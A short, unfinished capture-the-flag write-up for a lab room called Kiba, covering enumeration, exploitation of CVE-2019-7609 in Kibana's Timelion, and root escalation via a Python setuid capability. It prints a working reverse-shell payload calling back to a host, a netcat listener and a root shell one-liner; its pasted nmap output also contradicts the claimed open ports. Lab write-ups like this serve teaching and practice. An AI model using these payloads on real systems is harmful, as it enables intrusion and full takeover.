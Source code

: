 * NOT THE REAL WRITEUP, I JUST DO SOME TEST*
# ROOM : KIBA

## 1. Enumeration

First of all, i have to gather somes informations about this boxes.
I run nmap scan to get open port, version etc.

`nmap -sC -sV {ip}`

3 ports is open as you can see in the result :

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-22 09:30 EDT
Nmap scan report for 127.0.0.1
Host is up (0.000072s latency).
All 1000 scanned ports on 127.0.0.1 are in ignored states.
Not shown: 1000 closed tcp ports (conn-refused)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.50 seconds

```

WebServer is empty, just the default apache page. Lets look to the port 5601, who is Kibana.

## 2. Research of exploit !
We found one CVE about Kibana : **CVE-2019-7609**

This CVE can lead to a RCE (Remote Code Execution).

On a shell, i run a listenner to get the reverseshell.

`nc -lnvp 4444`

On the Timelion, i can put the payload :
`
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
`
Then run the code and load the canvas page.

Nice, we have the reverse shell.

1st flag obtained !

## 3. Privilege escalation !

We have to look at linux capabilities with getcap.

```getcap -r / 2</dev/null```

We can see python have the setuid capabilite and we can exploit this to get the root.
Using GTFOBins we have the right payload to get the root :

```/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'```

We have the root !

(En cours d'écriture..)
